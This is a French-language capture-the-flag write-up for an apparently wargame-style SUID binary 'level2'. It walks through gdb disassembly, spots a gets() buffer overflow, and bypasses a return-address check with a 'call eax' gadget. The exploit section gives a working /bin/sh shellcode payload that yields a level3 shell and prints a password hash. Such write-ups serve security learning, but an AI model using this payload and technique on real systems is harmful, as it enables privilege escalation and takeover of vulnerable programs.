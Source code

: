 ## Analyse

- `ls -la`
  ```
  [...]
    -rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2
  [...]
  ```
    - On a un binaire appartenant a level3 dans le home avec les droits SUID.

- `./level2`
  ```
    
  ```
  - Le programme attend un input
    - `test`
      - `test`
    - Le programme affiche le paramètre qu'on lui donne

- `gdb level2`
  - `set disassembly-flavor intel`
  - `info function`
    ```asm
    [...]
      0x080484d4  p
      0x0804853f  main
    [...]
    ```
    - on trouve une fonction p en plus du main
  - `disas main`
    ```asm
    Dump of assembler code for function main:
       0x0804853f <+0>:	push   ebp
       0x08048540 <+1>:	mov    ebp,esp
       0x08048542 <+3>:	and    esp,0xfffffff0
       0x08048545 <+6>:	call   0x80484d4 <p>
       0x0804854a <+11>:	leave
       0x0804854b <+12>:	ret
    End of assembler dump.
    ```
    - <+0> ... <+3>
      - Initialisation de la mémoire (aligne la stack)<br/><br/>
    - <+6>
      - Call p()<br/><br/>
    - <+11> ... <+12>
      - réinitialisation de la mémoire, fin d'exécution<br/><br/>
    - La fonction main() ne fait qu'appeler la fonction p()

  - `disas p`
    ```asm
    Dump of assembler code for function p:
       0x080484d4 <+0>:	push   ebp
       0x080484d5 <+1>:	mov    ebp,esp
       0x080484d7 <+3>:	sub    esp,0x68
       0x080484da <+6>:	mov    eax,ds:0x8049860
       0x080484df <+11>:	mov    DWORD PTR [esp],eax
       0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
       0x080484e7 <+19>:	lea    eax,[ebp-0x4c]
       0x080484ea <+22>:	mov    DWORD PTR [esp],eax
       0x080484ed <+25>:	call   0x80483c0 <gets@plt>
       0x080484f2 <+30>:	mov    eax,DWORD PTR [ebp+0x4]
       0x080484f5 <+33>:	mov    DWORD PTR [ebp-0xc],eax
       0x080484f8 <+36>:	mov    eax,DWORD PTR [ebp-0xc]
       0x080484fb <+39>:	and    eax,0xb0000000
       0x08048500 <+44>:	cmp    eax,0xb0000000
       0x08048505 <+49>:	jne    0x8048527 <p+83>
       0x08048507 <+51>:	mov    eax,0x8048620
       0x0804850c <+56>:	mov    edx,DWORD PTR [ebp-0xc]
       0x0804850f <+59>:	mov    DWORD PTR [esp+0x4],edx
       0x08048513 <+63>:	mov    DWORD PTR [esp],eax
       0x08048516 <+66>:	call   0x80483a0 <printf@plt>
       0x0804851b <+71>:	mov    DWORD PTR [esp],0x1
       0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
       0x08048527 <+83>:	lea    eax,[ebp-0x4c]
       0x0804852a <+86>:	mov    DWORD PTR [esp],eax
       0x0804852d <+89>:	call   0x80483f0 <puts@plt>
       0x08048532 <+94>:	lea    eax,[ebp-0x4c]
       0x08048535 <+97>:	mov    DWORD PTR [esp],eax
       0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
       0x0804853d <+105>:	leave
       0x0804853e <+106>:	ret
    End of assembler dump.
    ```
    - <+0> ... <+3>
      - Initialisation de la mémoire (libère 104 octets pour la stack)<br/><br/>
    - <+6> ... <+14>
      - Stocke la valeur dans le registre data segment à l'adresse 0x80497c0 dans eax
        - `x/s 0x8049860`
          - `0x8049860 <stdout@@GLIBC_2.0>:	 ""`
      - Stocke la valeur de eax (stdout) dans la stack (à esp)
      - Call fflush() avec l'argument stocké dans la stack<br/><br/>
    - <+19> ... <+25>
      - Fait pointer eax sur ebp - 76
      - Stocke eax (l'adresse de ebp - 76) dans la stack (à esp)
      - Call gets() avec l'argument stocké dans la stack<br/><br/>
    - <+30> ... <+49>
      - Stocke l'adresse ebp + 4 (l'eip) dans eax
      - Stocke eax (l'adresse de l'eip) dans ebp - 12
      - Applique un filtre binaire (0xb0000000) à la valeur de eax
      - Compare la nouvelle valeur de eax avec 0xb0000000
      - Jump à <p +83> si la comparaison n'est pas vraie<br/><br/>
    - <+51> ... <+66>
      - Stocke la valeur à l'adresse 0x8048620 dans eax
        - `x/s 0x8048620`
          - `0x8048620:	 "(%p)\n"`
      - Stocke la valeur à ebp - 12 (l'adresse de l'eip) dans edx
      - Stocke la valeur de edx dans la stack (à esp + 4)
      - Stocke la valeur de eax ("(%p)\n") dans la stack (à esp)
      - Call printf() avec les arguments stockés dans la stack<br/><br/>
    - <+71> ... <+78>
      - Stocke 0x1 (1) dans la stack (à esp)
      - Call exit() avec l'argument stocké dans la stack<br/><br/>
    - <+83> ... <+89> (Jump conditionnel depuis <+49>)
      - Fait pointer eax sur ebp - 76 (le retour du gets)
      - Stocke eax (ebp - 76) dans la stack (à esp)
      - Call puts() avec l'argument stocké dans la stack<br/><br/>
    - <+94> ... <+100>
      - Fait pointer eax sur ebp - 76 (le retour du gets)
      - Stocke eax (ebp - 76) dans la stack (à esp)
      - Call strdup() avec l'argument stocké dans la stack<br/><br/>
    - <+105> ... <+106>
      - Réinitialisation de la mémoire, fin d'exécution<br/><br/>

La fonction p() fait donc:
  - fflush(stdout) => clean stdout
  - gets(ebp - 76) => attend un input
  - vérifie avec un filtre binaire et un cmp si l'eip commence par 0xb...
    - si c'est le cas:
      - printf("%p\n", eip) => affiche la valeur du pointeur sur eip
      - exit(1) => quitte la fonction
    - sinon:
      - puts(ebp - 76) => affiche le retour du gets
      - strdup(ebp - 76) => copie le retour du gets dans un malloc et le stocke dans eax

## Exploit

On sait qu'il y a un buffer overflow possible sur le gets, cependant le check au niveau de <p+44> nous empêche de réécrire l'EIP pour le faire pointer sur une fonction de la stack comme dans l'exercice précédent, il va falloir trouver un autre moyen de lancer notre exploit.

Après quelques recherches dans les fonctions importées par le programme, on trouve un call à eax dans frame_dummy:

- `gdb level2`
  - `info function`
    ```asm
    [...]
      0x080484b0  frame_dummy
    [...]
    ``` 
  - `disas frame_dummy`
    ```asm
    [...]
      0x080484cf <+31>:	call   eax
    [...]
    ```
Puisque le strdup() stocke son output dans eax, en théorie on peut écrire un exploit dans l'input du gets() et utiliser l'adresse du call eax découvert dans frame_dummy (`0x080484cf`) pour réécrire l'EIP et faire exécuter notre exploit depuis eax !

On va se servir d'un [générateur de pattern](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) pour trouver l'offset plus rapidement:

- `echo "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag" > /tmp/exploit`
- `gdb level2`
  - `run < /tmp/exploit`
    ```
    Program received signal SIGSEGV, Segmentation fault.
    0x37634136 in ?? ()
    ```
    - on rentre 0x37634136 dans le générateur de pattern et il nous donne un offset de 80.

Nous créons donc un payload à l'aide du shellcode trouvé dans le lien suivant : http://shell-storm.org/shellcode/files/shellcode-219.php

On a 80 octets avant d'écraser l'EIP, donc on écrit les 21 octets de notre shellcode, 59 octets random (80 - 21) et notre adresse en little endian:
  - `python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 59 + "\xcf\x84\x04\x08"' > /tmp/exploit`

Enfin nous lançons le programme avec le payload malicieux comme au level précédent:
- `cat /tmp/exploit - | ./level2`
  ```
     j
  X�Rh//shh/bin��1�̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAτ

  ```
  - `whoami`
    ```
    level3
    ```
  - `cat /home/user/level3/.pass`
    ```
    492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
    ```
